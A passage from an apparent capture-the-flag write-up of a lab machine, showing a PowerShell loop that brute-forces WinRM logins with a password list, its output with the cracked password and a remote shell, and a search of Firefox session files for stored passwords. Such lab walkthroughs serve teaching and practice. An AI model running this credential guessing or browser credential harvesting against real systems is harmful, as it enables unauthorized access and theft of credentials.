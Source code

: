 That was a fair amount of guessing, and I am much happier if I can script something, even if just in a console, to do the brute force for me. Because getting better at PowerShell is on my to-do list, I decided to try that.

I’ll start a PowerShell docker container, using `-v` to mount my current directory with my passwords list into `/opt`:

```

root@kali# docker run -v $(pwd):/opt/heist -it quickbreach/powershell-ntlm
PowerShell 6.1.1
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/pscore6-docs
Type 'help' to get help.

PS />

```

Now, I’ll write a loop to try each of the passwords I’ve collected with WinRM with the new user, Chase:

```

PS /opt/heist> foreach($pass in cat ./passwords) {  
>>     $user = "chase"
>>     $secstr = New-Object -TypeName System.Security.SecureString
>>     $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
>>     $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
>>     $res = New-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $cred -ErrorAction SilentlyContinue
>>     if($res -ne $null) {
>>         echo "[+] Found password: $pass"
>>         Enter-PSSession $res
>>     } else {
>>         echo "[-] Password failed: $pass"
>>     }
>> }
[-] Password failed: stealth1agent
[-] Password failed: $uperP@ssword
[+] Found password: Q4)sJu\Y8qz*A3?d
[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
supportdesk\chase

```

The first line just loops over the lines in my password file. The next four lines set up the Windows credential object. The fifth line tries to create a PSSession using the credential. Then there’s a branch. If success, print message and connect. Otherwise, alert to failure, and continue.

## Priv to administrator


[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password